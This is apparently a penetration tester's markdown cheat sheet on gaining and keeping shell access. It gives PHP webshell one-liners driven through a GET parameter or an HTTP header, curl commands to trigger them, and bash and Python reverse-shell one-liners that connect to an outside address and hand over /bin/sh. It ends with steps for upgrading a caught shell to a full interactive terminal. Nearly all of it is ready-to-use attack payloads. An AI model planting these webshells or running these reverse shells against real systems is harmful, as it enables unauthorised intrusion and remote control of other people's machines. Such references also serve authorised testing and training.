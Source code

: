 # simple shell using get
    <?php system($_REQUEST['c']); ?>
then 
    `curl http://example.com?c=whoami`

# simple shell using http header
    <?php passthru(getenv('HTTP_ACCEPT_LANGUAGE')); ?>
then `curl http://example.com -H "Accept-Language: command"`

Make sure commands are URL encoded

# Reverse shell commands
These commands can be passed as the payload once you ahve a webshell to create a more persistent shell. Make sure to create a corresponding listening service using netcat to catch the shell.

Syntax Note: bash -c '{{ shell command }}'

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Bash
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
## Python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Upgrade your shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

## Use Python to spawn a psuedo-terminal
use Python to spawn a pty. The pty module let’s you spawn a psuedo-terminal that can fool commands like su into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command:

    python -c 'import pty; pty.spawn("/bin/bash")'

## Upgrading netcat shell using stty
1. First, follow the same technique as in Method 1 and use Python to spawn a PTY. Once bash is running in the PTY, background the shell with `Ctrl-Z`
2. While the shell is in the background, now examine the current terminal and STTY info so we can force the connected shell to match it \
![get_terminal_settings.png](get_terminal_settings.png)
The information needed is the TERM type `(“xterm-256color”)` and the size of the current TTY `(“rows 38; columns 116”)`
3. With the shell still backgrounded, now set the current STTY to type raw and tell it to echo the input characters with the following command: \
`stty raw -echo`
4. Next foreground the shell with `fg`. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with `reset`.
5. After the reset the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)
```
export SHELL=bash
export TERM={{ term setting from step 2}}
stty rows {{ rows }} columns {{ columns }}
```